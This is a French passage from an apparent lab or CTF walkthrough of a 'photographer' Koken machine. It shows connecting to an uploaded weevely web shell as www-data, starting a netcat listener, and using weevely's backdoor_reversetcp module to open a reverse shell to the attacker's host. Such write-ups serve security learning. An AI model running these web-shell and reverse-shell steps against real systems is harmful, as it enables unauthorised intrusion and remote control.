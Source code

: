 pour cela rdv sur la page du fichier nouvellement arrivé en haut de la fenetre vous devriez avoir un lien vers Download File... Copier le lien 

puis 

weevely http://172.16.21.117:8000/storage/originals/41/46/special.php connect

[+] weevely 4.0.1

[+] Target:	172.16.21.117:8000
[+] Session:	/root/.weevely/sessions/172.16.21.117/special_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> ls
special.php
www-data@photographer:/var/www/html/koken/storage/originals/41/46 $ 

vous avez compris on est sous la session www-data 

maintenant ce shell est pas totalement top il bug pas stable .... enfin pour avoir un acces complet et plus propre ... on vas devoir faire un shell reverse tcp 

weevely est bien plus qu'une simple basckdoor ... je vous montre çà de suite 

www-data@photographer:/tmp $ :backdoor_reversetcp
error: the following arguments are required: lhost, port
usage: backdoor_reversetcp
       [-h]
       [-shell SHELL]
       [-no-autonnect]
       [-vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}]
       lhost
       port


j'ai un peu fouillé et j'ai trouver dans le man page des modules vraiment très très sympa

Qui dit reverse shell il vas falloir lancer une écoute de notre coté 

un simple nc -lnvp 1234 par exemple 

nc -lnvp 1234 
Listening on 0.0.0.0 1234

on lance notre bacdoor depuis le shell web 

www-data@photographer:/tmp $ :backdoor_reversetcp 10.0.11.3 1234
Error binding socket: '[Errno 98] Address already in use'
Error binding socket: '[Errno 98] Address already in use'
Error binding socket: '[Errno 98] Address already in use'
Error binding socket: '[Errno 98] Address already in use'
Error binding socket: '[Errno 98] Address already in use'
Error binding socket: '[Errno 98] Address already in use'
Error binding socket: '[Errno 98] Address already in use'
Error binding socket: '[Errno 98] Address already in use'

BIMMM on récupère le shell chez nous 
